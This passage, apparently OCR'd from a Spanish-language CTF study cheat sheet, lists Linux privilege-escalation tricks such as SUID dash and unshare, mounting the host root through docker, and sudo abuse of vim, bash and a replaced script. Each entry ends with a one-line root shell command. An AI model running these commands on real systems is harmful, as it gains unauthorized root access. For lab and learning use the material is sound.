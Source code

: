 /usr/bin/dash -p

-------------------------------------------------------------------------------

L.- 	unshare

si estamos fuera de la carpeta dónde se encuentra unshare
/home/lenam/look/inside/unshare

/home/lenam/look/inside/unshare -r /bin/sh

si nos paramos en la carpeta dónde está unshare
./unshare -r /bin/sh


y listo somos root !!!

-------------------------------------------------------------------------------

M.-	/usr/bin/docker


/usr/bin/docker run -v /:/mnt --rm -it alpine chroot /mnt sh


********************************************************
Parte2.- ver archivos que se ejecutan con privilegios de root o de otros usuarios previos para escalar a root. 

comando:
sudo -l

hay ocasiones que me permite escribir la contraseña, como por ejemplo en la máquina trust de dockerlabs

1.-	/usr/bin/vim 

escribimos el comando
sudo /usr/bin/vim -c ':!/bin/sh' 

presionamos enter y listo somos root

-------------------------------------------------------------------------------
2.-	/bin/bash

escribimos el comando:
sudo /bin/bash

presionamos enter y listo, somos root

otra forma, cuando se ejecuta un script bash.sh, eliminamos este y creamos uno nuevo

nano bash.sh 

#!/bin/bash

exec /bin/bash

le damos permisos de ejecucion chmod +x bash.sh

sudo /usr/local/bin/bash y listo somos root !!!

nota:

